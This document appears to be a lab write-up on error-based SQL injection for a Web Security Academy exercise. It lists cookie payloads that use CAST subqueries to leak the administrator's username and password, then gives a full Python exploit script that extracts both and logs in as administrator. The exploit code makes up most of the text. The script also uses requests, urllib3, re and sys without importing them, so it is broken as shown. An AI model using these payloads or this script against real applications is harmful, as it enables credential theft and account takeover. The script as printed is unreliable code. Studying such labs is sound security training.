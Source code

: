 ```yaml
---
title: '13 SQLi Lab'
description: 'SQL injection for leaking administrator password via tracking cookie'
---
```



## Visible error-based SQL injection

<div style="text-align: justify;">
  This lab demonstrates a visible error-based SQL injection attack. The application uses a `TrackingId` cookie for analytics, and the submitted value is included in a SQL query. While the results of the query are not returned directly, verbose database error messages can be leveraged to extract sensitive data.

  By carefully manipulating the cookie value, we can leak the administrator username and password from the `users` table. The attack uses `CAST` to convert subquery results to integers and isolates a single row to trigger an informative error, revealing the database content one piece at a time.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Intercept a GET `/` request containing the `TrackingId` cookie.
- Append a single quote to the cookie to generate a SQL error:
```TrackingId=ogAZZfxtOKUELbuJ'```
- Add comment characters to ignore the rest of the query:
```TrackingId=ogAZZfxtOKUELbuJ'--```
- Include a `CAST` operation to craft a valid subquery:
```TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--```
- Adapt the query to retrieve the username:
```TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--```
- The resulting database error reveals the first username (`administrator`).
- Modify the query to extract the administrator password:
```TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--```
- Use the leaked password to log in as the administrator and complete the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def extract_value(url, column):
    """
    Extracts username or password from error-based SQLi.
    Uses regex to cleanly capture leaked values from error message.
    """
    payload = f"' AND 1=CAST((SELECT {column} FROM users LIMIT 1) AS int)--"
    cookies = {"TrackingId": payload, "session": "dummy"}
    r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)

    match = re.search(r'invalid input syntax for type integer: "([^"]+)"', r.text)
    if match:
        return match.group(1)  # only the actual leaked value
    return None

def login(url, username, password):
    """Log in using CSRF token and check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }
    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in base_res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved.")
    else:
        print("[-] Login failed.")
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    print("[*] Extracting administrator username...")
    username = extract_value(url, "username")
    if not username:
        print("[-] Failed to extract username")
        sys.exit(1)
    print(f"[+] Found username: {username}")

    print("[*] Extracting administrator password...")
    password = extract_value(url, "password")
    if not password:
        print("[-] Failed to extract password")
        sys.exit(1)
    print(f"[+] Found password: {password}")

    print("[*] Logging in...")
    login(url, username, password)

if __name__ == "__main__":
    main()
```